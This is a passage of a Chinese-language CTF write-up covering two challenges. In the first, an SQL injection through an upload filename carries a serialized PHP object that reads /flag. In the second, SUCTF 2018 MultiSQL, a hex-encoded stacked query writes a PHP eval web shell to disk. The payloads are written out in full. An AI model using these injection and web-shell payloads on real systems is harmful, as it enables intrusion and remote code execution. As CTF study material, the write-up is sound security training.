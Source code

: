 ```php
<p><a href="upload.php">Upload Images</a></p>

</body>
</html>
```

insert\_array 的时候存在 sql 注入, filename 可控, 然后结合 Get\_All\_Images 时的 unserialize 来反序列化 helper 类, 利用 \_\_destruct 方法读取 flag

```php
<?php
class helper {
    protected $ifview = True; 
    protected $config = "/flag";
}

echo str_replace(chr(0).'*'.chr(0),'\0\0\0',serialize(new helper()));

?>
```

注意属性必须得是 protected 的, 并且 00 字符替换要按照题目代码里面的来

测试发现 filename 不能存在 `/` 字符, 于是改成 hex, 即

```
123','1','1','1',0x4f3a363a2268656c706572223a323a7b733a393a225c305c305c30696676696577223b623a313b733a393a225c305c305c30636f6e666967223b733a353a222f666c6167223b7d);#.jpg
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211231206868.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211231206297.png)

## [SUCTF 2018]MultiSQL

查询用户信息处存在盲注

```
http://506b995f-192c-4444-b540-0908e8922e84.node4.buuoj.cn:81/user/user.php?id=2-1
```

用户名处应该也有个二次注入的, 没继续研究

盲注用异或来连接, 可以读文件, 但跑的时间很长

根据题目提示改成了预编译, 估计过滤了一些字符, 于是转成十六进制

结合上传头像时图片保存的路径 /favicon, 猜测该目录可写 (网站根目录没有权限)

直接利用预编译语句 into outfile 写 shell

```
http://506b995f-192c-4444-b540-0908e8922e84.node4.buuoj.cn:81/user/user.php?id=1;set @a=0x73656c65637420273c3f706870206576616c28245f524551554553545b315d293b3f3e2720696e746f206f757466696c6520272f7661722f7777772f68746d6c2f66617669636f6e2f78782e70687027;prepare st from @a;execute st;
```
